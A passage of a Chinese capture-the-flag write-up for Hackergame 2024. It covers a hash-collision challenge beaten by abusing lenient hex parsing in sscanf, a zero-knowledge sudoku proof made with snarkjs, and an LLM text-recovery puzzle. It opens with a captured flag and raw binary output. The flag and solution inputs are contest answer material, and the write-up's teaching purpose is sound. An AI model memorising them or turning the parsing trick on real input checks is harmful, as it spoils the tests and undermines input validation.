'flag{uno!!!!_esrever_now_U_run_MY_c0dee0908d2836}U_WU{hKtvck\xa0e\x8c\x94\x8bV\x97¢_PQgF\x83\x99\x8b\x8bP\x85\x9dgX\x97\x86\x94l\x8a\x99YUzLG|I\x82L\x8fUY\x98|\x7faQYir~}\x97M\x80\x82z\x83p\x88V\x91T\x82\x8f\x85\x7fs\x9cl\x84\x82Sm¡\x94\x90\x8cVZ[^exI\x9b]UG\x8dkFu¢k\x82T\xa0\x97T}\x9c\x89a¤mP\x85OH\x8by\x90_\x86\x9fk\x97J]\x8brXxOywd\\\x98¢ttmfb\x9e\\\x84\x90[YMm\x9f\x8f\x90\x7f¡\x93qj|£¤XP\x9dDN\x8bZ¥\x93Cd\x9cquoQkyz\x8amKD{V\x90\x94_\x88r\x97p{\x94WSk£\x94ol\x8b`\x9b\x9b\xa0K\x89q\x98QA\x81OJo\x93EBe\x91Sbi\x89K\x8d\x8c\x9fo\x85\x8bng\x98¤jkqK\x8d}E\x85jZVB¡Na¡|LkO\x8b\x8fp\x80|w|\x81P\x97\x85\x9e¤\x89]I\x8aYb^\x9b|u\x87j\x92XaxXPU\x97`DG¢\x92y\\O\x99\x90|\x9crO£\x83\x93{¢ke\x89Rn\x96x\x94¢jsM\x86dV\x82Za\x9f\x8c\x97m\x86\x94z`y\x9eppXgQ\x9bI¢E\x9b\x93{\x96n\x9b\x83\x98F\x9ev\x83Q\x8dn\x9a\x86p\x99\x96\x99]h\x87\x82JV\x7f\x98E\x8aic_\x81`UG¡\\\x93\\}nGiwCXDnv`_\x82\x9anY\\\x95\x90L\x9bX\x8f¥\xa0\x98]¥m\x81\x8aRF\x8aI\x7fD\x80\x96fbr\x90hrmB¥o\x9dKPL\x8f\x94¢\x8b\\_\x93'
```

## 哈希三碰撞

用 <https://dogbolt.org/> 反编译，阅读可以知道 flag1 要求 3 个 8 字节数据的 SHA256
最低 32 bits 相同。输入的十六进制转换用的是 `sscanf("%2x")`，遇到非法字符会停止，
所以可以轻松构造字符串不同但转换结果相同的输入。

```plaintext
Data 1:123456781234567x
Data 2:123456781234567y
Data 3:123456781234567z
```

成功避免了 binary 爆零。

## 零知识数独

第一问真的是数独，找个 [网站](https://shudu.gwalker.cn/) 帮忙解，主要是手输比较累。

第二问读了一下 Circom [文档](https://docs.circom.io/background/background/) 和
`sudoku.circom`，可以知道大概意思是数独问题是公开的，
我们需要在保持数独的解是秘密的情况下用这个电路证明我们拥有解。

按文档操作生成证明就可以。因为有版本要求，circom 需要用 Rust 版的，但因为附件给了
`sudoku.wasm`，所以第二问其实不需要用 circom。

解出来数独，把结果写成 JSON，然后生成证明。不知道为什么说 witness 不对，但还是能通过。

```shell
npm install -g snarkjs
snarkjs wtns calculate sudoku.wasm input.json witness.wtns
# ...
# [INFO]  snarkJS: > Checking witness correctness
# [WARN]  snarkJS: ··· aborting checking process at constraint 81
# [WARN]  snarkJS: WITNESS IS NOT CORRECT
# [WARN]  snarkJS: WITNESS CHECKING FINISHED UNSUCCESSFULLY
snarkjs groth16 verify verification_key.json public.json proof.json
# [INFO]  snarkJS: OK!
```

如果读者想自行编译电路，需要装 circomlib。

```shell
# https://docs.circom.io/getting-started/installation/
# Install circom
npm install -g circomlib
circom sudoku.circom --r1cs --wasm --sym --c -l /path/to/npm/
```

第三问的数独是无解的，所以要找电路的漏洞，感觉 `LessEqThan(4)` 比较可疑，
但读了代码乱搞了一下没出来。

## LLM

LLM 题当然用 LLM 解：

>Some text is generated with a prompt, and then all lowercase characters that appears in "hackergame" are replaced by "x". Find the original text.
>
>Prompt:
>
>```plaintext
>Write a few sentences for Hackergame 2024 (中国科学技术大学 (University of Science and Technology of China) 第十一届信息安全大赛) in English. The more funny and unreal the better. About 100 words.
>```
>
>Replaced text:
>
>```plaintext
>In txx xxxnd xxll of Hxxxxxxxxx 2024, wxxxx txx wxlls xxx linxd witx sxxxxns sxowinx txx lxtxst xxploits fxox txx xybxx woxld, xontxstxnts xxtxxxxd in x fxxnzy, txxix xyxs xluxd to txx vixtuxl xxploits. Txx xtxospxxxx wxs xlxxtxix, witx txx sxxll of fxxsxly bxxwxd xoffxx xinxlinx witx txx sxxnt of buxnt Etxxxnxt xxblxs. As txx fixst xxxllxnxx wxs xnnounxxd, x txxx of xxxxxxs, dxxssxd in lxb xoxts xnd xxxxyinx lxptops, spxintxd to txx nxxxxst sxxvxx xoox, txxix fxxxs x xix of xxxitxxxnt xnd dxtxxxinxtion. Txx xxxx wxs on, xnd txx stxxxs wxxx xixx, witx txx ultixxtx pxizx bxinx x xoldxn txopxy xnd txx bxxxxinx xixxts to sxy txxy wxxx txx bxst xt xxxxxinx xodxs xnd xxxxinx systxxs in txx lxnd of txx xisinx sun.
>```

测试下来 Claude 3.5 Sonnet 一次通过，吓我一跳。其次 Claude 3 Haiku 和 GPT-4o 把
`The game was on` 的 `game` 写成了 `race`，语义和规则都对就差一点. Copilot 把
`gathered` 写成 `entered`，长度就不对. GPT-4o mini 和 Llama 3.1 70B 出了多处错误。

因为感觉这个跟 strawberry 数 r 类似，本来只是碰碰运气，没懂为什么 LLM 能解这个。

## 后记

看了部分题解，感觉选手们的平均数学水平都被我拉低了.webp。

现在 LLM 的水平已经很不错了，在无法获得的秘密、看不见的彼方：交换空间、链上转账助手、
不太分布式的软总线、零知识数独、LLM 龙猫女仆这些题目里都为我节省了大量时间。
其他题目有的是太简单，有的是我还不够相信 LLM 的能力所以没尝试。
